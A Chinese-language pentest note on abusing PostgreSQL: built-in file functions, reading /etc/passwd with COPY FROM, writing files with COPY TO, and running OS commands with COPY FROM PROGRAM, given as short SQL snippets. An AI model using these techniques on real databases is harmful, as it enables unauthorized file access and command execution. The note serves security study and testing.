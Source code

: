 ```yaml
---
tags:
  - database
create_time: 2024-10-17 15:06
modified_time: 2024-10-17 15:06
status: complete
---
```

## 0x01 postgresql 特殊函数

- PostgreSQL 8.1 以后提供了一组现成的文件操作函数 pg_logdir_ls ()、pg_ls_dir ()、pg_file_rename ()、pg_file_write ()、 pg_read_file ()、pg_length_file ()
  限制条件：
  		服务将特殊函数的权限限制在了./postgresql/data 下面。

## 0x02 使用命令读目录

![](../../../_Attachment/postgresql.assets/file-20241017150700755.png)

![](../../../_Attachment/postgresql.assets/file-20241017150705151.png)

## 0x03 尝试绕过方式读取文件

```postgresql
（drop table wooyun;）
CREATE TABLE wooyun(t TEXT);
COPY wooyun FROM '/etc/passwd';
SELECT * FROM wooyun limit 10 offset 0;
```

![](../../../_Attachment/postgresql.assets/file-20241017150805505.png)

## 0x04 绕过方式写文件

```postgresql
DROP TABLE wooyun;
CREATE TABLE wooyun (t TEXT);
I N S E R T I N T O w o o y u n ( t ) V A L U E S ( ' h e l l o
wooyun');
COPY wooyun(t) TO '/tmp/wooyun';
```
![](../../../_Attachment/postgresql.assets/file-20241017151018195.png)

![](../../../_Attachment/postgresql.assets/file-20241017151027290.png)

## 0x05 命令执行

- 在 postgresql 的 9.3 到 11 版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

```postgresql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

![](../../../_Attachment/postgresql.assets/file-20241017151041193.png)